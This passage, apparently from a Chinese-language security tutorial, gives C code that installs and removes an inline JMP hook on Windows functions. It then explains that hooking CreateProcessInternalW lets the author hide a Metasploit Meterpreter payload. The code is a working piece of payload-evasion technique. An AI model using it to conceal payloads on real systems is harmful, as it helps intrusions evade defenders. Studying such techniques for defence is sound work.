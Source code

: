 ```
    LPHOOK_RESULT hookResult = (LPHOOK_RESULT)HeapAlloc(GetProcessHeap(), HEAP_GENERATE_EXCEPTIONS, sizeof(HOOK_RESULT));

    hookResult-&gt;hookFunAddr = hookFunAddr;
    hookResult-&gt;jmpAddr = jmpAddr;
    hookResult-&gt;len = len;
    hookResult-&gt;free = FALSE;

    hookResult-&gt;originalData = originalData;

    VirtualProtect(hookFunAddr, len, PAGE_EXECUTE_READWRITE, &amp;currProt);

    memset(hookFunAddr, 0x90, len);

    SIZE_T relativeAddress = ((SIZE_T)jmpAddr - (SIZE_T)hookFunAddr) - 5;

    *(LPBYTE)hookFunAddr = 0xE9;
    *(PSIZE_T)((SIZE_T)hookFunAddr + 1) = relativeAddress;

    DWORD temp;
    VirtualProtect(hookFunAddr, len, currProt, &amp;temp);

    printf("Hook installed at address: %02uX\n", (SIZE_T)hookFunAddr);

    return hookResult;
`}`
```

```
BOOL restoreHook(LPHOOK_RESULT hookResult) `{`
    if (!hookResult) return FALSE;

    DWORD currProt;

    VirtualProtect(hookResult-&gt;hookFunAddr, hookResult-&gt;len, PAGE_EXECUTE_READWRITE, &amp;currProt);

    CopyMemory(hookResult-&gt;hookFunAddr, hookResult-&gt;originalData, hookResult-&gt;len);

    DWORD dummy;

    VirtualProtect(hookResult-&gt;hookFunAddr, hookResult-&gt;len, currProt, &amp;dummy);

    HeapFree(GetProcessHeap(), HEAP_GENERATE_EXCEPTIONS, hookResult-&gt;originalData);
    HeapFree(GetProcessHeap(), HEAP_GENERATE_EXCEPTIONS, hookResult);

    return TRUE;
`}`
```

当我们的Metasploit payload调用`CreateProcess`函数时，就会执行我们自定义的`hookCreateProcessInternalW`方法。`hookCreateProcessInternalW`会调用另一个线程上的`createProcessNinja`，隐藏Meterpreter payload。
